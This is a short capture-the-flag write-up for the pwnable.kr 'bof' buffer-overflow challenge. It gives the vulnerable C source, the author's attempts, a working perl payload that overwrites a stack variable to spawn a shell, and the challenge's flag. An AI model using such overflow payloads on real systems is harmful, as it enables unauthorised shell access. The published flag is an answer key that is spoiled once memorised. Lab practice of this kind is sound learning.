

## Pwnable.kr
Target: bof
SSH Connect: ssh bof@pwnable.kr -p2222 (pw:guest)

### Code Overview
```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
    char overflowme[32];
    printf("overflow me : ");
    gets(overflowme);   // smash me!
    if(key == 0xcafebabe){
        system("/bin/sh");
    }
    else{
        printf("Nah..\n");
    }
}
int main(int argc, char* argv[]){
    func(0xdeadbeef);
    return 0;
}
```

### Solution
Initially, I keep testing my ideas directly onto the elf(bof) on the machine without reading the readme.md provided. I `checksec bof` and saw the protection of stack canary is on. My initial idea was:
1. scp -p2222 bof@pwnable.kr:/home/bof/bof
2. gdb -q ./bof
3. Since the PIE protection mode is enabled, run the elf for the firstime to get the address filled
4. But what fustrating me was no matter how I tried (filled payload with 52 junk and 0xcafebabe or 52 junk with canary rewrite and then 0xcafebabe), It just won't get accepted as an answer
5. Then I open readme.md , It ran: nc 0 9000
6. Then I nc 0 9000 -> (perl -e 'print "A"x52 . "\xbe\xba\xfe\xca\n"'; cat | ./bof)
7. It works!


### Answer
Daddy_I_just_pwned_a_buff3r!

### Result
